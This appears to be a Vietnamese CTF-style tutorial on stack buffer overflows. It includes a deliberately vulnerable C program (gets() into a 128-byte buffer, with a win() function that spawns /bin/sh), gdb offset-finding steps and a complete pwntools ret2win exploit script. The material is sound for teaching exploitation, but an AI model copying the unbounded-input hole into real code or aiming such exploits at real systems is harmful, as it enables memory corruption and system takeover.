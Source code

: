 # Decription

BOF (Buffer Over Flow) là một lỗi rất phổ biến và nguy hiểm trong lập trình. Nó có thể gây ra mất/ghì đè dữ liệu nhạy cảm thậm chí có thể lấy được toàn quyền hệ thống.

Khi một biến được khai báo với 1 số lượng nhất định nhưng đầu vào lại không kiểm soát số lượng nhập. Lúc này bof sẽ gây ra tràn dung lượng của biến đó và gây phá vỡ stack, tràn sang cả vùng nhớ lân cận.

Nếu không có những biện pháp an toàn thì hacker có thể chiếm được hệ thống và lấy được những thông tin nhạy cảm.

# Code có Bug

Tôi sẽ viết 1 chương trình C đơn giản làm rõ về bof

```c
#include<stdio.h>
#include <stdlib.h>

char *gets(char *);
void win() {
    system("/bin/sh");
}

int main(){
    char buf[128];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    gets(buf);
    return 0;
}
```

![](images/gcc.png)

# DEBUG

![](images/gdb.png)

Hãy luôn kiểm tra checksec đầu tiên.

No canary tức là được bof mà không cần sợ bị chặn.

Những bài có bof hãy đặt b* ngay tại hàm gây lỗi và tại hàm ret.

buf được khai báo với 128 bytes nhưng gets lại không giới hạn đầu vào nên ta cần tìm offset đến ret.

Ret là câu lệnh nhảy về hàm mẹ. Do đó nếu ta kiểm soát được ret thì sẽ kiểm soát được cả chương trình.

![](images/pattern.png)

Tại gets tạo pattern 200 ( hoặc lớn hơn) sau đó nhập vào.

![](images/sigsegv.png)

Tại ret báo sigsegv. Là do ta ghì đè qua cả ret địa chỉ không hợp lệ nên ret không nhảy vào đó được. Hãy tính offset bằng pattern.

![](images/search.png)

Chúng ta chỉ cần 136 bytes là overflow được ret.

Tiếp theo là tìm địa chỉ win để ghì đè vào ret.

![](images/win.png)

Vậy payload = b'a'*136 + p64(win_addres)


![](images/flag.png)


Tổng kết lại là buf có 128 bytes nhưng ta có thể nhập đến tận 136+8 bytes nữa làm ghì đè ret và kiểm soát nó.
# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401194
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a'*136
payload += p64(exe.sym.win+1)

sl(payload)
p.interactive()
```



